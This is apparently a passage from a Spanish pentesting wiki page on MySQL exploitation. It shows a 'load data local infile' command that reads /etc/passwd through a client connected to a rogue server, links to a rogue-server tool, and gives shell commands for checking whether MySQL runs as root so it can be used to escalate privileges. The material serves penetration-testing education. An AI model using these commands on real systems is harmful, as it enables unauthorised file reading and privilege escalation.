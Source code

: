 ## EXPLOTACIÓN

### Lectura arbitraria de archivos por cliente

Cuando intentas cargar archivos locales en una tabla, el servidor de MySQL o MariaDB hace que el contenido del archivo sea leido por el cliente y después enviado.

Por ese motivo, si eres capaz de iniciar un cliente MySQL y conectarlo a tu propio servidor MySQL, podrías leer archivos arbitrarios.

<pre class="language-sql"><code class="lang-sql"><strong>mysql -u &#x3C;USER> -p --enable-local-infile
</strong><strong>
</strong><strong>load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';</strong></code></pre>

Es importante utilizar el modificador local, ya que sino podemos obtener el siguiente error:

```sql
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv 
option so it cannot execute this statement
```

{% hint style="info" %}
Para hacerlo correctamente necesitas un servidor MySQL. Se puede utilizar el siguiente:\
[https://github.com/allyshka/Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)\
\
Además pueden encontrar el resumen de la vulnerabilidad [**aquí**](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/).

La explicación detallada de la vulnerabilidad [**aquí**](https://paper.seebug.org/1113/).
{% endhint %}

## POST-EXPLOTACIÓN

### Comprobar el usuario de MySQL

Es muy interesante comprobar, después del acceso inicial a un objetivo, si el usuario root es el que maneja MySQL por que se puede utilizar para escalar privilegios.

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
systemctl status mysql 2>/dev/null | grep -o ".\{0,0\}user.\{0,50\}" | cut -d '=' -f2 | cut -d ' ' -f1
```

### Configuraciones Peligrosas

El archivo de configuración por defecto es:

```
mysqld.cnf
```
